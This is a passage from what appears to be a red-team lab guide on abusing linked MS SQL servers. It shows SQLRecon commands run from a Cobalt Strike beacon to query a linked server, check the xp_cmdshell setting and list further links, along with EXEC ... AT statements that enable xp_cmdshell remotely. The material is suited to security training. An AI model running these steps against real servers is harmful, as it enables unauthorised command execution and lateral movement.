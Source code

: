{% hint style="info" %}
_**The use of double and single quotes is important when using OpenQuery.**_
{% endhint %}

**Or with SQLRecon:**

```
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lquery /l:sql-1.cyberbotic.io /c:"select @@servername"

[*] Executing 'select @@servername' on sql-1.cyberbotic.io via sql-2.dev.cyberbotic.io,1433
column0 | 
----------
SQL-1 |
```

**We can also check the xp\_cmdshell status.**

```
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lquery /l:sql-1.cyberbotic.io /c:"select name,value from sys.configurations WHERE name = ''xp_cmdshell''"

[*] Executing 'select name,value from sys.configurations WHERE name = ''xp_cmdshell''' on sql-1.cyberbotic.io via sql-2.dev.cyberbotic.io,1433
name | value | 
---------------
xp_cmdshell | 0 |
```

If `xp_cmdshell` is disabled, you won't be able to enable it by executing `sp_configure` via `OpenQuery`. &#x20;

**If RPC Out is enabled on the link (which is not the default configuration), then you can enable it using the following syntax:**

```
EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [sql-1.cyberbotic.io]
EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [sql-1.cyberbotic.io]
```

{% hint style="info" %}
The square braces are required.
{% endhint %}

We can query SQL-1 to find out if it has any further links.

```
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:llinks /l:sql-1.cyberbotic.io

[*] Additional SQL links on sql-1.cyberbotic.io via sql-2.dev.cyberbotic.io,1433
[+] No results.
```

\


In this case it does not, but manually querying each server to find additional links can be cumbersome and time-consuming.  Instead, `Get-SQLServerLinkCrawl` can automatically crawl all available links and shows you a bit of information for each instance.
